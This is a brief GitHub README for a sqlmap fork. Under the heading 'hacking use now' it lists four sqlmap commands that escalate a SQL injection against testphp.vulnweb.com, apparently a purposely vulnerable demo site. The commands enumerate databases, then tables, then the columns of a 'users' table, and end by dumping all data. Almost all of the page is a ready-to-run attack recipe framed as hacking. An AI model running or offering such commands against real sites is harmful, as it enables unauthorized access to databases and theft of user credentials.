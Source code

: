 
## Installation:
  
    https://github.com/princeicon2712/sqlmap-dev.git



# sqlmap-dev hacking use now:

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 --dbs ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart --tables ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users --columns ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users -C uname --dump-all ```


## profile by developer:
<img src="rejaul.jpg" width="600"/>
